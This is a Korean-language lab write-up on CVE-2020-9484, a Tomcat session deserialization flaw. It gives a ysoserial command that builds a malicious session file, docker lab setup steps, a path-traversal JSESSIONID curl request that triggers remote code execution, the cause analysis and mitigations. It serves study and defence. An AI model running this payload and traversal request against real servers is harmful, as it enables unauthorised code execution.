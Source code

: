 # CVE-2020-9484 



## 0. 취약한 환경 버전

#### Apache Tomcat

> 7.0.0 ~ 7.0.103
>
> 8.5.0 ~ 8.5.54
>
> 9.0.0.M1 ~ 9.0.34
>
> 10.0.0-M1 ~ 10.0.0-M4

<br>

## 1. 환경 구성

> **ubuntu 20.04**
>
> **docker**
>
> **ysoserial**

<br>

> CommonsCollections2 가젯 체인을 이용하여 공격 코드가 포함된 세션 파일 생성 ( docker 파일 내 첨부되어 따로 실행하지 않아도 됨)

``````
java -jar ./ysoserial-master.jar CommonsCollections2 'tocuh /tmp/rce' > groovy.session
``````

<br>

ysoserial: https://github.com/frohoff/ysoserial

<br>

> docker 파일이 존재하는 git 서버 클론

```
git clone https://github.com/masahiro331/CVE-2020-9484.git
```
<br>

![1](https://user-images.githubusercontent.com/89399749/142800342-9f65e411-9825-401d-ac83-56318231ff51.png)



<br>



> 톰캣 서버 이미지 생성

```docker build -t tomcat:groovy .
docker build -t tomcat:groovy .
```
<br>

![2](https://user-images.githubusercontent.com/89399749/142800388-e3185355-e0eb-4ce7-9c74-8254eb35a953.png)


<br>


>호스트 8080번 포트를 도커의 8080포트로 전달하여 실행

```docker run -d -p 8080:8080 tomcat:groovy
docker run -d -p 8080:8080 tomcat:groovy
```

<br>

![3](https://user-images.githubusercontent.com/89399749/142800402-544253c4-a8ec-443c-bb0c-7ffee4e0ec12.png)


<br>


> 도커 프로세스 확인

```
docker ps -a
```
<br>

![4](https://user-images.githubusercontent.com/89399749/142800426-7f9b048e-ebfe-42ca-a215-cf2b93834402.png)


<br>

> 도커 진입

```docker exec -t -i 이름 /bin/bash
docker exec -t -i 이름 /bin/bash
```
<br>

![5](https://user-images.githubusercontent.com/89399749/142800451-014b029d-190f-4396-bffe-c2e893ba341a.png)


<br>

## 2. PoC



> 아파치 서버 웹페이지 확인

<br>

![7](https://user-images.githubusercontent.com/89399749/142800468-a7095174-4e8e-4383-963c-c915b8d61d9f.png)


<br>



> tmp 폴더 확인

```cd /tmp & ls
cd /tmp & ls
```

<br>

![6](https://user-images.githubusercontent.com/89399749/142800480-dc71568b-ab33-4f59-b823-884c24da5245.png)


<br>





> 취약한 Session Deserialization을 이용하여 rce 파일 삽입

```
curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy
```

<br>

![8](https://user-images.githubusercontent.com/89399749/142800500-aab3a583-37a9-4f53-9e1b-49f2fb55075b.png)


<br>





## 3. 원인 분석

Tomcat에서 사용하는 Session Manager는 Standard Manager와 Persistent Manager 2가지가 있다. Standard Manager는 Tomcat 기본 설정으로 메모리에 세션을 저장하다가 서버의 재시작/정지 시에 세션 데이터를 직렬화하여 session.ser 파일에 저장한다. 서버 에러 등 예기치 않은 정지 시에는 세션 데이터가 저장되지 않는다. 



Persistent Manager는 Standard와 동일하나 일정 시간 사용되지 않는 세션을 가져와 파일 또는 데이터베이스에 저장한다. 세션을 저장할 때는 세션 데이터를 직렬화하여 저장하고, 해당 세션 요청이 들어오면 역직렬화하여 메모리에 가져온다.



Persistent Manager를 사용하여 세션을 관리할 때에는 세션을 저장할 디렉터리를 정할 수 있다. Store 요소 안에 className 속성을 org.apache.catalina.FileStore로 지정하면 directory 속성으로 저장할 디렉터리를 지정할 수 있으며, 세션ID를 사용해 파일 이름을 저장한다. className 속성을 org.apache.caltalina.JDBCStore로 지정하면 개별 행으로 저장되는 데이터베이스에 세션이 저장된다



```xml
<Manager className="org.apache.catalina.session.PersistentManager" sessionAttributeValueClassNameFilter="">

<Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>

</Manager>
```





**RCE 실행 조건**

1. 공격자는 서버에 있는 파일 내용과 이름을 제어할 수 있는 경우
2. 서버가 PersistenceManager의 FileStore를 사용하도록 구성된 경우
3. PersistenceManager가 sessionAttributeValueClassNameFilter="null" 또는 공격자가 제공한 개체를 역직렬화할 수 있도록 필터 구성이 미흡한 경우
4. 공격자는 FileStore에서 사용하는 스토리지 위치와 제어가능한 파일의 상대 경로를 아는 경우





## 4. 대응 방안

1. Persistent Manger 주석처리
2. FileStore 기능을 비활성화하거나 sessionAttributeValueClassNameFilte 값을 별도로 구성하여 특정 속성을 가진 개체만 직렬화/역직렬화할 수 있도록 조치
3. 버전 업그레이드





## 참조

1. https://github.com/masahiro331/CVE-2020-9484

2. https://github.com/frohoff/ysoserial
3. https://m.blog.naver.com/skinfosec2000/222042818637

